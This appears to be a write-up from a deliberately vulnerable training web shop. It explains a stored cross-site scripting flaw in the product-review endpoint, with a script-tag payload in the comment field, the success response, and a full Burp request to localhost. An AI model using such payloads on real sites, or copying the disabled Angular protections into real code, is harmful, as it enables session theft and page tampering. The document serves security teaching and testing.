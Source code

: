 # Stored Cross Site Scripting (XSS)
The stored variant XSS, like other variations, inject scripts into benign, non-attacker controlled websites.  The distinction is stored XSS  _stores_ the injected scripts/code on the server, resulting in the script persisting beyond the current HTTP session.

## Exploitation
**Prerequisites:** _Authenticated, Ordered the Product_

**Location:** _POST /productreviews_

While posting reviews HTML tags, including script, can be specified in the _comment_ parameter. The Angular application is configured to bypass Angular's two primary protections: encoding all interpolated variables and auto-removal of script tags which prevent Stored XSS (or any other XSS).  Below is an exploitation example:

    POST /productreviews
    raw:
    {
    "product" : {"id" : 1},
    "title" : "Disgusting",
    "grade" : 1,
    "comment" : "<script>alert(1);</script>"
    }

To execute the script go to the ProductPage of the review you POSTed to, in our case Product 1 or Vanilla Candle.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Success"
    }

## Burp Suite Example Exploitation

    POST /productreviews HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 82
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: 5b2aef5f-69e8-4335-b4ac-d9e02c9545dc
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=5b2aef5f-69e8-4335-b4ac-d9e02c9545dc; JSESSIONID=37C756F1CE0059619B8EC2FD9FB19AF1
    Connection: close

    {"product":{"id":1},"title":"Disgusting","grade":1,"comment":"<script>alert(1);</script>"}

